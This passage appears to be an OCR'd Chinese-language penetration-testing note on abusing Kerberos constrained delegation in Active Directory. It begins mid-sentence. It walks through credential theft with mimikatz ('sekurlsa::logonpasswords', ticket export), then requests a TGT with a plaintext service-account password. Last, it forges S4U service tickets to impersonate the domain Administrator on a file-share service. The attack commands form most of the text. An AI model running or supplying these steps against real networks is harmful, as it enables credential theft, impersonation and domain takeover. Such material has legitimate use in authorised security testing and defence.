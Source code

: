 获取到一个服务账户或者主机账户，该服务账户或者主机账户被设置为约束委派并且指定了委派的服务。  
### 攻击方式  
  
获取账户的hash或者密码，或者获取到账户所在主机到权限直接使用工具抓取TGT。  
  
1、定义  
  
约束委派只能获取某个用户或者主机的ST，也就是只能模拟用户访问特定的服务。而且无法获取用户TGT。  
  
2、条件  
  
获取开启委派的用户的hash(机器用户的hash可以直接使用minikazi抓取密码)或者明文密码，伪造请求模拟用户获取访问指定服务的ST。  
  
3、步骤  
  
1）获取用户hash。  

```
mimikatz.exe &#34;privilege::debug&#34; &#34;sekurlsa::logonpasswords full&#34; exit

```

  
请求用户TGT。  

```
tgt::ask /user:mssql /domain:de1ay.com /password:1qaz@WSX /ticket:test.kirbi

```

  
/user: 服务用户的用户名。  
  
/password: 服务用户的明文密码。  
  
/domain: 所在域名。  
  
/ticket: 指定票据名称，不过这个参数没有生效，可以忽略。  
  
如果获取到主机权限，可以直接使用minikazi导出TGT。  

```
mimikatz.exe &#34;privilege::debug&#34; &#34;sekurlsa::tickets /export&#34; exit

```

  
然后直接请求ST2票据，然后直接导入内存中。  

```
tgs::s4u /tgt:[0;196b1e4]-2-0-60a00000-qiyou@krbtgt-QIYOU.COM.kirbi /user:Administrator@qiyou.com /service:cifs/dm08.qiyou.com

```

  
2）通过获取的TGT，伪造请求以admin用户身份请求指定的主机服务ST。  

```
tgs::s4u /tgt:TGT_qiyou@QIYOU.COM_krbtgt~qiyou.com@QIYOU.COM.kirbi /user:Administrator@qiyou.com /service:cifs/dm08.qiyou.com

```

